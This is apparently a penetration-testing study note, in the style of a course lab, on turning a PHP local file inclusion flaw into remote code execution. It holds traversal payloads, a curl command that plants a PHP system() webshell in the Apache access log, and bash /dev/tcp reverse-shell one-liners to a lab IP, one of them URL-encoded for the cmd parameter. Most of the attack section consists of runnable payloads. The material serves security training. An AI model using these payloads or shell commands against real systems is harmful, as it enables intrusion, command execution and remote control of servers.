

---
tags:
  - lfi
  - phase/exploitation
  - rce
  - web
---

# Local file inclusion (LFI)

> [!tip] Quick Reference — LFI
> | Goal | Command / Payload |
> |------|---------|
> | Basic traversal | `?page=../../../../etc/passwd` |
> | Null byte (old PHP) | `?page=../../../../etc/passwd%00` |
> | Log poisoning (Apache) | Poison User-Agent → include `/var/log/apache2/access.log` |
> | Log poisoning (SSH) | Poison SSH username → include `/var/log/auth.log` |
> | /proc/self/environ | `?page=../../../../proc/self/environ` |
> | PHP filter base64 | `?page=php://filter/convert.base64-encode/resource=index.php` |

## Decision Tree

```
Parameter includes a file? (page=, file=, template=, lang= etc)
├── Test basic traversal
│   └── ?page=../../../../etc/passwd
│       ├── Passwd visible → LFI confirmed
│       └── Not visible → try more ../../../ or encoding
│
├── LFI confirmed — go for RCE via Log Poisoning
│   ├── Find accessible log file
│   │   ├── /var/log/apache2/access.log  (most common)
│   │   ├── /var/log/apache2/error.log
│   │   ├── /var/log/auth.log            (SSH logs)
│   │   └── /proc/self/environ
│   ├── Poison the log
│   │   └── curl -A "<?php system(\$_GET['cmd']); ?>" http://<IP>/
│   └── Execute via LFI
│       └── ?page=../../../../var/log/apache2/access.log&cmd=id
│
├── No log access? Try PHP wrappers
│   ├── php://filter → read source code (base64)
│   └── data:// → embed payload directly (needs allow_url_include)
│
└── Got RCE? Get a shell
    └── ?page=...&cmd=bash -c 'bash -i >%26 /dev/tcp/<LHOST>/4444 0>%261'
```

## Visual Flow — LFI to Shell



> [!success] What success looks like
> Requesting `?page=../../../../etc/passwd` returns lines like `root:x:0:0:root:/root:/bin/bash`. That's confirmed LFI — now escalate to source-read or RCE.

> [!warning] If `/etc/passwd` doesn't show
> - Add more `../` (you may not be deep enough).
> - **URL-encode the dots:** `%2e%2e%2f` — filters often block literal `../`. See [[🔣 Encoding Reference]].
> - Try a null byte `%00` on old PHP (<5.3.4) if the app appends `.php`.

> [!danger] Common errors
> - Page returns blank / "failed to open stream" → wrong path or file doesn't exist; adjust depth.
> - PHP wrapper `data://` fails → needs `allow_url_include=On` (often off). Use log poisoning instead.
> - Reverse shell in `cmd=` won't fire → URL-encode `&` as `%26` and spaces; test `cmd=id` first.

> [!tip] Beginner note — LFI vs Directory Traversal
> **Traversal** = *read* a file's contents. **LFI** = the file gets *executed/included* by the app. LFI is more powerful because it can lead to code execution. See [[Identifying and exploiting directory traversals]].

## Common Log Paths
| OS | Log |
|----|-----|
| Debian/Ubuntu | `/var/log/apache2/access.log` |
| CentOS/RHEL | `/var/log/httpd/access_log` |
| Any Linux | `/var/log/auth.log`, `/proc/self/environ` |
| Windows IIS | `C:\inetpub\logs\LogFiles\W3SVC1\` |

## Resources
- [HackTricks — LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [PayloadsAllTheThings — LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)


Before we examine Local File Inclusion (LFI), let's take a moment to explore the differences between File Inclusion and Directory Traversal. These two concepts often get mixed up by penetration testers and security professionals. If we confuse the type of vulnerability we find, we may miss an opportunity to obtain code execution.

As covered in the last Learning Unit, we can use directory traversal vulnerabilities to obtain the contents of a file outside of the web server's web root. File inclusion vulnerabilities allow us to "include" a file in the application's running code. This means we can use file inclusion vulnerabilities to execute local or remote files, while directory traversal only allows us to read the contents of a file. Since we can include files in the application's running code with file inclusion vulnerabilities, we can also display the file contents of non-executable files. For example, if we leverage a directory traversal vulnerability in a PHP web application and specify the file admin.php, the source code of the PHP file will be displayed. On the other hand, when dealing with a file inclusion vulnerability, the admin.php file will be executed instead.

In the following example, our goal is to obtain Remote Code Execution (RCE) via an LFI vulnerability. We will do this with the help of Log Poisoning. Log Poisoning works by modifying data we send to a web application so that the logs contain executable code. In an LFI vulnerability scenario, the local file we include is executed if it contains executable content. This means that if we manage to write executable code to a file and include it within the running code, it will be executed.

> [!info] Identify attacker-controlled fields in the log
> First read the log via LFI to see which parts of a request you control (and thus can inject PHP into). Include the access log using the traversal path:
> ```
> curl "http://mountaindesserts.com/meteor/index.php?page=../../../../var/log/apache2/access.log"
> ```
> A sample entry shows the client IP, request line, status, and the `User-Agent` — the User-Agent is attacker-controlled, so it's the field to poison:
> ```
> 192.168.50.1 - - [12/Apr/2022:10:34:55] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
> ```


> [!info] Poison the log via the User-Agent
> Capture the request in Burp and send it to Repeater, then replace the `User-Agent` header with a PHP webshell snippet. It runs any command passed in the `cmd` parameter through PHP's `system()` and echoes the output.

<?php echo system($_GET['cmd']); ?>

> [!info] Execute the poisoned log via LFI
> The snippet is now stored in `access.log`. Include the log through the LFI to execute it — set the `page` parameter to the log's relative path:
> ```
> ?page=../../../../var/log/apache2/access.log
> ```


> [!info] Pass a command with the cmd parameter
> Append `&cmd=<command>` to the URL to feed the snippet a command. Test with something simple first, e.g. `&cmd=ps`:
> ```
> ?page=../../../../var/log/apache2/access.log&cmd=ps
> ```
> Remove the poisoned `User-Agent` header from this request first — otherwise the snippet gets written to the log again and your command executes twice.


> [!info] Handling spaces in commands
> A command with arguments like `ls -la` breaks because of the space in the URL. Two fixes: URL-encode the space as `%20`, or use the Input Field Separator (`$IFS`) to split arguments without a literal space. IFS pattern:
> ```
> IFS=' '                       # IFS set to a space
> input="cat /etc/passwd"
> read -r cmd arg <<< "$input"
> $cmd $arg
> ```


> [!info] URL-encode the space
> Simpler than IFS: replace each space with `%20`, e.g. `&cmd=ls%20-la`, and the command executes correctly.


Upgrade to a reverse shell by passing a Bash TCP one-liner in the `cmd` parameter (update the IP for your lab):

bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

PHP's `system()` runs commands through `sh` (Bourne shell), which doesn't support the `>&` syntax above. Wrap the one-liner in `bash -c` to force execution under Bash:

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

URL-encode all the special characters before putting it in the `cmd` parameter:

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

> [!info] LFI on Windows and other languages
> LFI on Windows works the same way — only the paths change. The same PHP `system()` snippet works because `system()` is OS-independent. For log poisoning on Windows, look for application-specific log paths, e.g. XAMPP's Apache logs at `C:\xampp\apache\logs\`.
>
> The same File Inclusion techniques apply beyond PHP to other server-side languages — Perl, ASP, ASP.NET (ASPX), and JSP — with very similar exploitation.

---
%% graph-links %%
## Related
- [[Remote file inclusion (RFI)]]
- [[PHP wrappers]]
- [[Identifying and exploiting directory traversals]]
- [[Command Injection]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/File Inclusion Vulnerabilities/_index|File Inclusion Vulnerabilities]] · Home: [[🏠 Home]]

